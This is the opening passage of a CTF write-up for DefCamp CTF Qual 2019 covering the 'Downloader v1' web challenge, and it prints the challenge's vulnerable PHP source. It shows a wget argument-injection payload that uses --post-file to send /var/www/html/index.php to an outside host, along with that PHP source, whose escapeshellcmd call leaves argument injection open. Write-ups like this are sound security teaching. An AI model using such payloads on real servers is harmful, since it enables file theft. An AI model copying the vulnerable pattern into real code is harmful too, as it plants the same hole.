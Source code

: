 # DefCamp CTF Qual 2019

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20190907-defcampctfqual/) of this writeup.**


 - [DefCamp CTF Qual 2019](#defcamp-ctf-qual-2019)
   - [Web](#web)
     - [Downloader v1](#downloader-v1)
     - [imgur](#imgur)
     - [online-album](#online-album)
   - [Misc](#misc)
     - [numbers](#numbers)
     - [Eye Of The Tiger](#eye-of-the-tiger)
   - [PwnRev](#pwnrev)
     - [get-access](#get-access)
     - [secret](#secret)
     - [crack-me-username](#crack-me-username)


## Web

### Downloader v1

This challenge allows you to input a URL. Then it will use `wget` to download the content of this URL and put it into `/upload/<random>`. After this, it will run `bash -c 'rm $target/*.{php,pht,phtml,php4,php5,php6,php7}'` to prevent uploading php files.

But we can use argument injection to upload file:

`wget http://kaibro.tw --post-file=/var/www/html/index.php kaibro.tw:8787`

```php
<?php

ini_set('display_errors', 0);
$out   = false;
$url   = $_POST['url'] ?? false;
$error = false;

if ($url && !preg_match('#^https?://([a-z0-9-]+\.)*[a-z0-9-]+\.[a-z0-9-]+/.+#i', $url)) {
    $error = 'Invalid URL';
} else if ($url && preg_match('/\.(htaccess|ph(p\d?|t|tml))$/', $url)) { // .htaccess .php .php3 -  .php7 .phtml .pht
    $error = 'Sneaky you!';
}

if (!$error && $url) {
    $target = 'uploads/' .uniqid() . bin2hex(openssl_random_pseudo_bytes(8));
    mkdir($target);
    chdir($target);
    touch('.htaccess');

    $cmd = escapeshellcmd('wget ' . $url) . ' 2>&1';
    $out = "\$ cd $target" . PHP_EOL;
    $out .= '$ ' . $cmd . PHP_EOL;
    $out .= shell_exec($cmd);

    $cmd = "bash -c 'rm $target/*.{php,pht,phtml,php4,php5,php6,php7}'";
    $out .= '$ ' . $cmd . PHP_EOL;
    $out .= shell_exec($cmd) . PHP_EOL;
}

?><!DOCTYPE html>
<html>
```